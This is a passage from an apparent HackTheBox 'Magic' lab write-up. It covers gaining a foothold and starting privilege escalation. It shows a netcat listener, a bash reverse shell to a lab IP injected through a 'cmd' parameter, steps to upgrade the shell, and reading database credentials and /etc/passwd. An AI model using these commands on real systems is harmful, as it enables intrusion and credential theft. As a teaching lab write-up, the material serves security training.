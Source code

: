 ```text
nc -nlvp 443
```

Then run the request again and send it to _Repeater._ Next, visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and add the bash reverse shell in the ‘_cmd_’ parameter.

```text
bash -c 'bash -i >& /dev/tcp/10.10.14.171/443 0>&1'
```

Make sure to URL encode it before you send the request \(Ctrl + U\).

![Image for post](https://miro.medium.com/max/659/1*NPkw2rnthUK6a2_-MY1NJw.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “_fg_” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the _user.txt_ flag. Therefore, we need to escalate our privileges.

### Privilege Escalation <a id="a004"></a>

Going through the web app files, we find database credentials in the _db.php5_ file.

```text
www-data@ubuntu:/var/www/Magic$ cat db.php5
...
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
...
```

Let’s check if _theseus_ is a user on the system.

```text
www-data@ubuntu:/var/www/Magic$ cat /etc/passwd
...
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
...
```
